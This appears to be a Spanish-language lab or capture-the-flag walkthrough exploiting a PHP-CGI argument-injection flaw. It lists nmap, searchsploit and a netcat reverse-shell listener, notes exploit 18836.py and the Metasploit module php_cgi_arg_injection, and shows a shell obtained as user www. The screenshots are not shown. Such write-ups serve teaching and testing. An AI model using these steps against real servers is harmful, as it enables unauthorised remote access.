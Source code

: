 
Primero realizamos un escaneo del servidor instalado en el puerto 80
```
nmap -sV -sC -p80 
```
![[Pasted image 20240501114155.png]]

Revisamos el archivo `phpinfo.php` el cual suele obtener bastante información
![[Pasted image 20240501114418.png]]

Buscamos un exploit para atacar el servicio
```
searchsploit php cgi
```
![[Pasted image 20240501114555.png]]

Nos descargamos el exploit
```
searchsploit -m 18836.py
```
![[Pasted image 20240501114734.png]]

Si ejecutamos directamente el exploit sin configurarlo nos mostrara información del servicio
![[Pasted image 20240501115048.png]]

Ahora lo configuramos para obtener una reverse shell
![[Pasted image 20240501115841.png]]

Ahora desde otra terminal nos ponemos a escuchar con netcat
```
nc -nvlp 1234
```
![[Pasted image 20240501115705.png]]

Ejecutamos el exploit
![[Pasted image 20240501115926.png]]

Y como podemos ver desde la termianl con el oyente de netcat obtenemos acceso al sistema con el usuario www
![[Pasted image 20240501120010.png]]

Esto podemos automatizarlo desde metasploit con el siguiente modulo
`exploit/multi/http/php_cgi_arg_injection`
![[Pasted image 20240501120136.png]]

Seleccionamos el exploit, lo configuramos y lo ejecutamos, como podemos ver en las siguientes capturas hemos obtenido acceso con el mismo usuario
![[Pasted image 20240501120335.png]]
![[Pasted image 20240501120353.png]]

